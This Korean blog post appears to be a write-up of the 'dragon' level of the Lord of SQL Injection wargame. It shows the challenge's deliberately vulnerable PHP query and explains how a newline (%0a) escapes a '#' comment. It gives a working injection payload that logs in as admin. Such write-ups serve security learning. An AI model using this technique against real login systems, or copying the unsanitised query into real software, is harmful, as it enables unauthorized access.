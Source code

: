 ```yaml
---
layout: post
title: Lord of SQL Injection - dragon
comments: true
---
```

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```

LOS 문제를 풀면서 제일 애먹었다고 말할 수 있는 문제이다..

무슨 guest로 로그인을 할 수 밖에 없게 만들라고 한건지.. 

기존에 발견했던 문제를 발생시키는 문자열은 NULL(\x00)과 New Line(\x0a)이다.

한동안 여기서 막혀있다가 다른 개발을 하다가 우연찮게 PHPMyAdmin에서 발견한 것이다...

만약 *pw*가 *%0a11111*가 되면 어떻게 쿼리가 될까?
```sql
SELECT id from prob_dragon where id='guest'# and pw='
11111'
```

줄바꿈했을 때의 부분인 **11111'**가 주석처리가 안되어 있었다..

이와 같은 속성(?)으로 줄바꿈 한 다음에 admin을 가져오도록 하면 문제가 해결된다.

```
and%201=0%20or%20id='admin'%23
```

ps. SQL을 야매로 공부해서 그런지 저런 속성을 몰랐었다;;...
